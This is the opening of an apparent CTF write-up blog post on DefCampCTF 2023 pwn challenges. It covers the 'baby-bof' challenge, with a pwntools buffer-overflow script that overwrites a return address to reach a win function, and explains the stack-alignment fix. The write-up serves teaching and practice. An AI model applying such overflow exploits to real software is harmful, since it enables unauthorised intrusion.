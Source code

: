 ```yaml
---
weight: 1
title: "DefCampCTF 2023 Writeups"
date: 2023-08-24T02:05:00+07:00
lastmod: 2023-08-24T02:05:00+07:00
draft: false
author: "ItayB"
authorLink: "https://itaybel.github.io"
description: "Solutions to all of the pwn challenges and some of the forensics in the event."

tags: ["pwn", "fsb"]
categories: ["Writeups"]

lightgallery: true

toc:
  enable: true
---
```


Solutions to all of the pwn challenges and some of the forensics in the event.


## Overview

This week , me and my team `thehackerscrew` have secured first place in this event.
I managed to solve all pwn challenges, and here I will show you my solutions.

## baby-bof

This challenges was a simple buffer overflow challenge, without any stack canary.
There was a `win` function, so I just jumped to it, by overriding the return pointer.
After running this code, we fail to win:
```py
from pwn import *

p = gdb.debug("./bof")
flag_function = 0x400767

p.sendline(b'A' * (304 + 8) + p64(flag_function))

p.interactive()

```

we can see that we get a SEGFAULT in this instruction:

` ► 0x7f263b4627f3 <buffered_vfprintf+115>    movaps xmmword ptr [rsp + 0x40], xmm0`

This happens because when we called the `win` function, the stack wasn't alligned correctly. `RSP` needs to to 16bit aligned.  To solve that, we can just jump to a single `ret` instruction before the `win` function , which will increase `RSP` by 8, and make it aligned.
